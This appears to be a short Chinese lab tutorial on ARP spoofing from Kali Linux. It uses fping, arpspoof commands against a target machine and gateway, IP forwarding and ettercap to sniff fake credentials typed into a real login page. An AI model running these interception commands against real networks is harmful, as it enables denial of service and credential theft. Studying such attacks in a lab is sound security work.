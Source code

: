 
获取靶机ip    fping -g 192.168.255.1/24

得到靶机ip 192.168.255.151


查看默认网关  route -n

得到192.168.255.2 为局域网共用网关


利用kali自带工具进行arp欺骗使对方断网：

（Arpspoof -i 网卡 -t ip地址 网关

注意：2.0版本 arpspoof -i 网卡-t 网关 目标ip地址）

arpspoof -i eth0 -t 192.168.255.151 192.168.255.2


**开启IP转发功能，linux因为系统安全考虑，是不支持IP转发的，其配置文件写在/proc/sys/net/ipv4的ip_forward中。默认为0，接下来修改为1**

网关改为自己的ip,这样靶机仍然可以正常上网，方便后面查看数据包

arpspoof -i eth0 -t 192.168.255.151 192.168.255.153

使用kali自带工具 ettercap 嗅探

ettercap  -Tq -i eth0

![avatar](arp1.jpg)

![avatar](arp2.jpg)


随便找一个有登陆的ip用于测试 http://passport2.chaoxing.com/login

靶机在网页输入伪造的用户名密码

在kali查看

![avatar](arp3.jpg)

